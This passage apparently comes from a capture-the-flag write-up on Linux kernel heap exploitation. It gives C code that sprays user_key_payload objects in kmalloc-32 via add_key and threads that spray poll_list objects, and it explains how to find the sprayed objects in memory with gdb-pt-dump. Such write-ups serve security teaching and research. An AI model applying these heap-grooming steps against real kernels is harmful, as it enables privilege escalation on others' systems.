 Okay, let me go through in order.
First, place keys in kmalloc-32 by `add_key()`. Note that there are no glibc wrapper for `add_key` syscall, so you have to install a package like `libkeyutils-dev`, and then build an exploit with `-lkeyutils`.
Spray keys like below:

```spray_keys.c
void spray_keys() {
  char *desc = calloc(0x100, 1);
  if (desc <= 0) errExit("spray_keys malloc");
  strcpy(desc, DESC_KEY_TOBE_OVERWRITTEN_SEQOPS);

  for (int ix = 0; ix != NUM_KEY_SPRAY; ++ix) {
    memcpy(desc + strlen(DESC_KEY_TOBE_OVERWRITTEN_SEQOPS), &ix, 4);
    char *key_payload = malloc(SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS);
    memset(key_payload, 'A', SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS);
    key_serial_t keyid0 = add_key("user", desc, key_payload, SIZE_KEY_TOBE_OVERWRITTEN_SEQOPS, KEY_SPEC_PROCESS_KEYRING);
    if (keyid0 < 0) errExit("add_key 0");
  }
}
```

Then, you can find our target objects in kmalloc-32 heap (using `pt -ss AAAAAAAA -align 8`). This would be `kmalloc-32`. We can confirm it by the payload `AAAAAAAA` we prepared as a needle, and the fact that the previous short value is `0x08`(`ushort datalen`).
![user_key_payload in kmalloc-32](https://hackmd.io/_uploads/HkpRN-sli.png)

BTW `user_key_payload` are not placed in next to each other 。We can guess that `CONFIG_SLAB_FREELIST_RANDOMIZE` or something is enabled in this kernel。 Then, spray `poll_list` in `kmalloc-4k` and `kmalloc-32`:

```alloc_poll_list.c
  assign_to_core(0);
  for (int ix = 0; ix != NUM_POLLLIST_ALLOC; ++ix) {
    if(pthread_create(&threads[ix], NULL, alloc_poll_list, &just_fd) != 0) errExit("pthread_create");
  }
```

![search for poll_list](https://hackmd.io/_uploads/SktKxMseo.png)

![poll_list in kmalloc-4k](https://hackmd.io/_uploads/B1r7z7jei.png)

This time, we `poll` for the event `POLLERR`(`=0x0008`), and we use `fd == 0x00000004`, so we can use bytes `0x0000000400080000` as a needle for search (`pt -sb 08000000040000000800000004000000 -align 16`. though `pt -sb fe01000004000000 -align 8` would be better). BTW, I noticed that `struct pollfd[]` in `poll_list` is not aligned. Due to this unalignment, I spent crazy times on finding target `poll_list`. And I forgot saying that this `pt` command means [gdb-pt-dump](https://github.com/martinradev/gdb-pt-dump).

![pahole of pollfd](https://hackmd.io/_uploads/SJ9oezjei.png)
![pahole of poll_list](https://hackmd.io/_uploads/HJ6pZMogs.png)
